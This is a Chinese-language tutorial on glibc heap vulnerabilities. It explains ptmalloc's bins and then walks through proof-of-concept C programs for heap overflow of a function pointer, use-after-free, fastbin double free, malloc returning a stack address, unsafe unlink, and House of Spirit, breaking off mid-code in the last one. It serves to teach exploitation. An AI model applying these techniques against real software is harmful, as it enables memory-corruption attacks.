# 堆漏洞

## Glibc 内存管理介绍

linux 平台的分配堆空间的方法,有两种 brk 和 mmap

brk :通过增加程序中断位置 brk 从内核获取内存

mmap : malloc 使用 mmap 创建一个私有并且随机的 mapping 段,归 libc 管理



x86 位模式下进程默认内存布局



空闲空间被分成两部分,一部分为 brk ,一部分为 mmap 映射区域, mmap 映射区域一般从 TASK_SIZE/3 的地方开始,但在不同的 Linux 内核和机器上, mmap 区域的开始位置一般是不同的. brk 和 mmap 区域都可以供用户自由使用,但是它在刚开始的时候并没有映射到内存空间内,用时才会分配空间

x86_64 位模式下进程默认内存布局



当前内核默认配置下,进程的栈和 mmap 映射区域并不是从一个固定地址开始,并且每次启动时的值都不一样,是程序在启动时随机改变这些值的设置 ALSR ,使得使用缓冲区溢出进行攻击更加困难

### Ptmalloc 介绍

ptmalloc 对 brk 和 mmap 利用方式如下

* 具有长生命周期的大内存分配使用 mmap

* 特别大的内存分配总是使用 mmap

* 具有短生命周期的内存分配使用 brk ,因为用 mmap 映射匿名页,当发生缺页异常时, linux 内核为缺页分配一个新物理页,并将该物理页清 0 ,一个 mmap 的内存块需要映射多个物理页,导致多次清 0 操作,很浪费系统资源,所以引入了 mmap 分配阈值动态调整机制,保证在必要的情况下才使用 mmap 分配内存

* 尽量只缓存临时使用的空闲小内存块,对大内存块或是长生命周期的大内存块在释放时都直接归还给操作系统

* 对空闲的小内存块只会在 malloc 和 free 的时候进行合并, free 时空闲内存块可能放入 pool 中,不一定归还给操作系统

* 收缩堆的条件是当前 free 的块大小加上前后能合并 chunk 的大小大于 64KB 并且堆顶的大小达到阈值,才有可能收缩堆,把堆最顶端的空闲内存返回给操作系统

* 需要保持长期存储的程序不适合用 ptmalloc 来管理内存

* 为了支持多线程,多个线程可以从同一个分配区 arena 中分配内存, ptmalloc 假设线程 A 释放掉一块内存后,线程 B 会申请类似大小的内存,但是 A 释放的内存跟 B 需要的内存不一定完全相等,可能有一个小的误差,就需要不停地对内存块作切割和合并,这个过程中可能产生内存碎片

ptmalloc 中链表统称为 bin ,链表中的“结点”就是各个 chunk


系统使用数组管理不同的 bin



* 在 fast bin 中每个结点 chunk 大小大约在 16~80bytes ,不大于 max_fast (默认值为64B)的 chunk 被释放后,首先会被放到fast bins 中.当需要给用户分配的 chunk 小于或等于 max_fast 时,ptmalloc 首先会在 fast bins 中查找相应的空闲块,然后才会去查找bins中的空闲chunk.在某个特定的时候, ptmalloc 会遍历 fast bins 中的 chunk ,将相邻的空闲 chunk 进行合并,并将合并后的 chunk 加入 unsorted bin 中,然后再将 unsorted bin 里的 chunk 加入 bins 中

* unsorted bin 的队列使用 bins 数组的第一个,如果被用户释放的 chunk 大于 max_fast,或者 fast bins 中的空闲 chunk 合并后,这些 chunk 首先会被放到 unsorted bin 队列中,在进行 malloc 操作的时候,如果在 fast bins 中没有找到合适的 chunk,则 ptmalloc 会先在 unsorted bin 中查找合适的空闲 chunk ,然后才查找 bins .如果 unsorted bin 不能满足分配要求 malloc 便会将 unsorted bin 中的 chunk 加入 bins 中.然后再从 bins 中继续进行查找和分配过程.从这个过程可以看出来, unsorted bin 可以看做是 bins 的一个缓冲区，增加它只是为了加快分配的速度

malloc() 的流程如下



## 堆漏洞实例

### Winner Code

针对如下代码,原本执行只会输出 nowinner ,利用堆溢出,目标执行 winner

```C
// gcc main.c -o heap0
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#include <unistd.h>
#include <sys/types.h>

struct data
{
    char name[64];
};

struct fp
{
    int (*fp)();
};

void winner()
{
    printf("level passed\n");
}

void nowinner()
{
    printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
    struct data *d;
    struct fp *f;

    d = malloc(sizeof(struct data));
    f = malloc(sizeof(struct fp));
    f->fp = nowinner;

    printf("data is at %p, fp is at %p\n", d, f);

    strcpy(d->name, argv[1]);
    f->fp();
}
```

* 攻击过程

编译之后,利用 gdb 打开程序, r aaa 之后显示vvmap.

得到 heap 的起始地址 0x00602000



利用 heap 的起始地址 0x00602000 查看该地址处的数据



地址 0x60210 处的数据 616161 是我们输入的数据

地址 0x60260 处的数据 400607 可能是 nowinner 的函数调用地址

进行验证,确实是 nowinner 的函数地址 400607



因此我们目标明确,利用 strcpy 将 nowinner 的函数调用地址覆盖成 winner

查看 winner 地址


攻击



成功 level passed

### Use After Free

ptmalloc 针对小内存分配,会在 fast bins 中第一次合适的地方,选择一个 chunk

针对如下代码,目标在 auth 退出之后,利用 service 写数据覆盖原来的指针值,进行登录

```C
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

#include <unistd.h>
#include <sys/types.h>

struct auth
{
    char name[64];
    int auth;
};

struct auth *auth;
char *service;

int main(int argc, char **argv)
{
    printf("[ pid = %d ]\n", getpid());

    char line[128];
    while (1)
    {
        printf("[ auth = %p, service = %p ]\n", auth, service);

        if (fgets(line, sizeof(line), stdin) == NULL)
        {
            break;
        }

        if (strncmp(line, "auth ", 5) == 0)
        {
            auth = malloc(sizeof(auth));
            memset(auth, 0, sizeof(auth));
            if (strlen(line + 5) < 31)
            {
                strcpy(auth->name, line + 5);
            }
        }

        if (strncmp(line, "reset", 5) == 0)
        {
            free(auth);
        }

        if (strncmp(line, "service", 6) == 0)
        {
            service = strdup(line + 7);
        }

        if (strncmp(line, "login", 5) == 0)
        {
            if (auth->auth)
            {
                printf("you have logged in already!\n");
            }
            else
            {
                printf("please enter your password\n");
            }
        }
    }
}
```

* 攻击过程

登录之后,根据 pid 查看堆信息



得到该进程的 libc 库管理堆的区域为  02096000-020b7000

利用如下过程进行攻击


首先 auth admin 登录

然后 reset 退出 admin 登录

利用 service AAAAAAA 覆盖 auth.auth 进行登录

由于 libc 申请管理的区域为 02096000-020b7000 ,即使 auth 释放了空间, libc 将空间分配给 service 覆盖了 0x2096830 附近的区域,使得利用 0x2096830 指针访问时仍然可以登录

### Double Free

针对如下程序,利用对 fast bin 中的一个 chunk 采用两次连续 free ,使得 malloc 返回一个相同的地址

```C
// gcc -std=c99 -g -o fastbin_dup main.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file demonstrates a simple double-free attack with fastbins.\n");

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. If we malloc 3 times, we'll get %p twice!\n", a, b, a, a);
    fprintf(stderr, "1st malloc(8): %p\n", malloc(8));
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "3rd malloc(8): %p\n", malloc(8));
}
```

* 原理分析

在 ptmalloc 中,存在 fast bin (一个链表结构), 专门用来管理 16~80bytes 的 chunk (结点),实际可用大小总是比实际整体大小少 16bytes

fast bin 对链表的管理采用 LIFO 先入后出的方法

free fast chunk 操作主要分为两步:先通过 chunksize 函数根据传入的地址指针获取该指针对应的 chunk 的大小,然后根据这个 chunk 大小获取该 chunk 所属的 fast bin ,然后再将此 chunk 添加到该 fast bin 的链尾即可,整个操作都是在 int_free 函数中完成


因此,我们在上述代码中,连续分配三个 8bytes , free a 这时候 a chunk 被插入到 fast bin 的队头, free b 这时候 b chunk 被插入到队头, a chunk 成了第二个结点,然后再 free a 这时候三个结点依次是 a chunk b chunk a chunk ,然后连续分配三个 8bytes ,就会造成第一次和第三次分配的地址相同


* 运行效果


可以看到第一次 malloc 和第三次 malloc 得到的地址相同

### Malloc Return Stack

针对如下代码,利用二次 free ,修改 free chunk 结点指向下一个 free chunk 的地址,使得 malloc 返回的地址指向栈区域

```C
// gcc -std=c99 -g -o fastbin_dup_into_stack main.c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
            "returning a pointer to a controlled location (in this case, the stack).\n");

    unsigned long long stack_var;

    fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
            "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
    stack_var = 0x20;

    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

* 原理分析

free chunk 的结构如下



allocated chunk 的结构如下



PREV_INUSE(P):This bit is set when previous chunk is allocated

IS_MMAPPED(M):This bit is set when chunk is mmap’d

NON_MAIN_ARENA(N):This bit is set when this chunk belongs to a thread arena

chunk 结构体的定义如下



通过两种 chunk ,通过修改 d 所指区域的前八字节为 stack_var 的前四字节的地址,系统得到第四个 free chunk 的地址

则 stack_var=0x20  代表当前 chunk size (0x20<<32)bit ,足够分配第四个 malloc



* 运行效果



可以看到第四次 malloc 的值与 &stack_val+8 相同,说明 malloc 返回的地址是栈区域

### Malloc Return Twice

根据如下代码,目标是使两次 malloc() 返回相同的地址

```C
// gcc -stdc99 -g -o fastbin_dup_consolidate main.c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

* 原理分析

malloc_consolidate() 函数是定义在 malloc.c 中的一个函数,用于将  fastbin 中的空闲 chunk 合并整理到 unsorted_bin 中以及进行初始化堆的工作,在 malloc() 以及 free() 中均有可能调用 malloc_consolidate() 函数

调用 malloc_consolidate() 时如果堆已经初始化,则清空 fastbin 接下来就将 fastbin 中的每一个 chunk 合并整理到 unsorted_bin 或 top_chunk

对每一个 chunk,首先尝试向后合并,然后尝试向前合并,如果向前相邻 top_chunk,则直接合并到 top_chunk 后完事,不再理会 unsorted_bin,如果向前不相邻 top_chunk,则尝试向前合并后插入到 unsorted_bin

因此我们利用第一次 free(p1) 之后, p1 chunk 会被加入到 fast bins 中,然后调用 malloc(0x400) 触发 malloc_consolidate() 函数,该函数将 p1 chunk 从 fast bins 中移动到 unsorted bins,此时一个 p1 chunk 已经在 unsorted bins 中,第二次调用 free(p1),又将 p1 chunk 加入到 fast bins 中,这时候 fast bins 和 unsorted bins 中均有一个 p1 chunk,并且均在队列头部

然后调用 malloc(0x40) 先在 fast bins 中查找将队头的 p1 chunk 分配出,再调用 malloc(0x40) 此时 fast bins 为空,在 unsorted bins 中查找将对队列头的 p1 chunk 分配出



两次 malloc() 返回相同的地址

* 运行效果



可以看到最后两次 malloc() 的返回值均为 0xbc1010

### Unsafe UnLink

我们有一个全局指针变量 chunk0_ptr 用来保存 malloc 的地址,局部变量 chunk1_ptr 用来保存另外一个 malloc 之后的地址.我们假设造成溢出的是 chunk0 ，那么我们就可以更改掉与其连续分配的 chunk1 的元数据.通过构造 fake chunk 可以使得 chunk0_ptr 在 unlink 的时候,其值被更改,可以被更改为其自己的地址附近,然后通过操纵该地址,即可以操纵他自己所指向的地址的值,造成任意地址写

```C
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure
{
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10]; // padding
};

int main()
{
    unsigned long long *chunk1, *chunk2;
    struct chunk_structure *fake_chunk, *chunk2_hdr;
    char data[20];

    // First grab two chunks (non fast)
    chunk1 = malloc(0x80);
    chunk2 = malloc(0x80);
    printf("%p\n", &chunk1);
    printf("%p\n", chunk1);
    printf("%p\n", chunk2);

    // Assuming attacker has control over chunk1's contents
    // Overflow the heap, override chunk2's header

    // First forge a fake chunk starting at chunk1
    // Need to setup fd and bk pointers to pass the unlink security check
    fake_chunk = (struct chunk_structure *)chunk1;
    fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
    fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

    // Next modify the header of chunk2 to pass all security checks
    chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
    chunk2_hdr->prev_size = 0x80; // chunk1's data region size
    chunk2_hdr->size &= ~1;       // Unsetting prev_in_use bit

    // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
    // This results in chunk1 pointer pointing to chunk1 - 3
    // i.e. chunk1[3] now contains chunk1 itself.
    // We then make chunk1 point to some victim's data
    free(chunk2);
    printf("%p\n", chunk1);
    printf("%x\n", chunk1[3]);

    chunk1[3] = (unsigned long long)data;

    strcpy(data, "Victim's data");

    // Overwrite victim's data using chunk1
    chunk1[0] = 0x002164656b636168LL;

    printf("%s\n", data);

    return 0;
}
```

* 原理分析

free() 的流程如下



unlink代码如下



unlink 操作的本质就是:将 P 所指的 chunk 从双向链表中移除,BK 和 FD 用作临时变量

首先检测prev chunk 是否为 free ,这可以通过检测当前 free chunk 的 PREV_INUSE(P) 比特位知晓

如果为 free 的话，那么就进行向后合并:将前一个 chunk 占用的内存合并到当前 chunk ,修改指向当前 chunk 的指针,改为指向前一个 chunk ,使用 unlink 宏,将前一个 free chunk 从双向循环链表中移除

在分配或是合并的时候需要删除链表中的一个结点是P->fd->bk = P->bk; P->bk->fd = P->fd;而在做这个操作之前会有一个简单的检查,即查看P->fd->bk == P && P->bk->fd= == P,但是这个检查有个致命的弱点，就是因为他查找fd和bk都是通过相对位置去查找的，那么虽然P->fd和P->bk都不合法，但是P->fd->bk和P->bk->fd合法就可以通过这个检测，而在删除结点的时候就会造成不同的效果了

本例中 chunk1 和 chunk2 被连续分配,然后在 chunk1 的 mem 开始处构造一个伪堆块,构造bk和fd的位置，使得找到bk之后再找fd指向全局变量 chunk1_ptr 所在的位置,chunk1_ptr 的值即为 P ,那么就可以绕过那个检查了,使得 fd 之后再找 bk 也指向相同的位置

由于 chunk2 找 chunk1 的起始位置是通过 chunk1 最开始的部分的 prev_size ,也就是 chunk2 的位置减去一个 prev_size 就可以找到 chunk1 的位置,所以需要更改 prev_size,这样不至于跳到真正的 chunk1 而是伪 chunk1 ,再更改 chunk2 的 prev free 标志位,使得伪 chunk1 成为一个 free chunk


free chunk2,由于 chunk2 和伪 chunk1 连续,且伪 chunk1 现在状态为 free,所以需要 unlink 伪 chunk1 来进行合并操作


第二句赋值使得 chunk1_ptr 的指向的地址变为了他自己的所在的地址减去 3*8

现在 chunk0_ptr[3] 和 chunk0_ptr 是同一个内存里的.所以最后更改 chunk0_ptr[3],也就是更改了 chunk0_ptr 的值,使其指向了另外的地方,那么再更改 chunk0_ptr 指向的地方,就更改了另外的地方,这里就可以做到任意地址写了

* 运行结果



free(chunk2)之后从输出可以看到 chunk1 和 chunk1[3] 的值相同

可以看到我们最后的结果,是修改 chunk1 所指的值,达到了修改栈上的变量 date 的目的

### House of Spirit

通过设置任何存储位置的 fake chunk,当 fake chunk 被 free() 的时候,会插入到 bin 的队列中

下一个 malloc() 调用这个伪块的大小时会返回 fake chunk 的地址

```C
//gcc -std=c99 -o houseofspirit main.c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct fast_chunk
{
    size_t prev_size;
    size_t size;
    struct fast_chunk *fd;
    struct fast_chunk *bk;
    char buf[0x20]; // chunk falls in fastbin size range
};

int main()
{
    struct fast_chunk fake_chunks[2]; // Two chunks in consecutive memory
    void *ptr, *victim;

    ptr = malloc(0x30);

    printf("fake_chunks0:%p\n", &fake_chunks[0]);
    printf("fake_chunks1:%p\n", &fake_chunks[1]);

    // Passes size check of "free(): invalid size"
    fake_chunks[0].size = sizeof(struct fast_chunk);

    // Passes "free(): invalid next size (fast)"
    fake_chunks[1].size = sizeof(struct fast_chunk);

    // Attacker overwrites a pointer that is about to be 'freed'
